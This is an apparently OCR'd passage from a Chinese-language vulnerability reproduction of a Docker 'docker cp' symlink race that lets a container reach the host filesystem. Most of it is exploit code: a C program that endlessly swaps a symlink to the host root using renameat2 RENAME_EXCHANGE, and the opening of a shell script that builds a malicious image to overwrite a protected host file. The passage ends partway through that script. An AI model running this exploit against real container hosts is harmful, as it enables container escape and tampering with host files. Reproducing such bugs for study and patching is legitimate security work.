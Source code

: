 ```
{
	if (argc != 2)
		usage();

	char *symlink_path = argv[1];
	char *stash_path = NULL;
	if (asprintf(&stash_path, "%s-stashed", symlink_path) < 0)
		bail("create stash_path");

	/* Create a dummy file at symlink_path. */
	struct stat sb = {0};
	if (!lstat(symlink_path, &sb)) {
		int err;
		if (sb.st_mode & S_IFDIR)
			err = rmdir(symlink_path);
		else
			err = unlink(symlink_path);
		if (err < 0)
			bail("unlink symlink_path");
	}

	/*
	 * Now create a symlink to "/" (which will resolve to the host's root if we
	 * win the race) and a dummy directory at stash_path for us to swap with.
	 * We use a directory to remove the possibility of ENOTDIR which reduces
	 * the chance of us winning.
	 */
	if (symlink("/", symlink_path) < 0)
		bail("create symlink_path");
	if (mkdir(stash_path, 0755) < 0)
		bail("mkdir stash_path");

	/* Now we do a RENAME_EXCHANGE forever. */
	for (;;) {
		int err = renameat2(AT_FDCWD, symlink_path,
	                        AT_FDCWD, stash_path, RENAME_EXCHANGE);
		if (err < 0)
			perror("symlink_swap: rename exchange failed");
	}
	return 0;
}
```

属于竞态条件漏洞，不是每次都能复现，为了增大触发几率，需要在宿主机不断执行dokcer cp命令run_read.sh和run_write.sh模拟受害者在宿主机不断执行docker cp 命令

#### run_write.sh

宿主机cp到容器内的场景，触发漏洞，指定的宿主机文件将覆盖容器内恶意符号链接

```
#!/bin/bash

SYMSWAP_PATH=/totally_safe_path
SYMSWAP_TARGET=/w00t_w00t_im_a_flag

# Create our flag.
echo "FAILED -- HOST FILE UNCHANGED" | sudo tee "$SYMSWAP_TARGET"
sudo chmod 0444 "$SYMSWAP_TARGET"

# Run and build the malicious image.
docker build -t cyphar/symlink_swap \
        --build-arg "SYMSWAP_PATH=$SYMSWAP_PATH" \
        --build-arg "SYMSWAP_TARGET=$SYMSWAP_TARGET" build/
ctr_id=$(docker run --rm -d cyphar/symlink_swap "$SYMSWAP_PATH")

```